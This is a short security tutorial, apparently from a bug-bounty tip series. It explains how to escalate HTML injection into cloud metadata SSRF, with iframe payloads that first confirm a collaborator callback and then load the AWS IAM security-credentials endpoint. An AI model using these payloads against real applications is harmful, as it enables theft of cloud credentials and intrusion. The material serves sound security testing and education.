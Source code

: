 ### SecurityExplained S-4: Escalating HTML Injection to Cloud Metadata SSRF 

```
If you have found an HTML Injection vulnerability that allows you to load <iframe>, <img> or similar tag and the application is utilizing "Cloud Services" such as "AWS", it is possible to escalate the finding to perform "Cloud Metadata SSRF". 

Performing this attack is quite simple: 

1. Confirm if the application is try to load an iframe by using already found HTML Injection. Example Payload: <iframe src="collaborator_url/" title="SSRF Test"></iframe>
2. If the iframe is loaded successfully and the interaction is received on the Collaborator, next step is to check for Metadata SSRF. 
3. Now, perform the attack with the following payload (Specific to AWS):<iframe src="http://169.254.169.254/latest/meta-data/iam/security-credentials/" title="SSRF Test"></iframe> 
4. If the loaded iframe contains "security credentials", you can perform further enumeration. 
5. Also, if the application is rendering the HTML code in the "PDF", this attack is still possible, so worth trying. 

Here is the list of Metadata endpoints for different cloud service providers: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#ssrf-url-for-cloud-instances

```

Click [here](https://twitter.com/harshbothra_/status/1478394407095353346?s=20&t=QR8LCZPmGCrSu2SuCUBCgQ) to open the tweet of this topic
